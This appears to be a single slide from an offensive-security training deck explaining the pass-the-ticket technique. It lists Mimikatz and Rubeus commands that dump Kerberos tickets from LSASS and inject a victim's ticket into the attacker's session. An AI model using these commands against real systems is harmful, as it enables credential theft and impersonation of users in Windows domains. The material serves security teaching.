

# PASS THE TICKET
Getting the user’s tickets and using it to impersonate the user. The tickets are stored in LSASS and
can be extracted using Mimikatz:
. \ M i m i k a t z . e x e
s e k u r l s a : : t i c k e t s  / e x p o r t
and Rubeus
. \ R u b e u s . e x e	d u m p
The tickets will be dumped in .kirbi format. Then the ticket can be injected into our session using Mimikatz:
. \ M i m i k a t z . e x e
k e r b e r o s :: p t t	v i c t i m t i c k e t . k i r b i
and Rubeus
. \ R u b e u s . e x e	p t t	/ t i c k e t : v i c t i m t i c k e t . k i r b i
209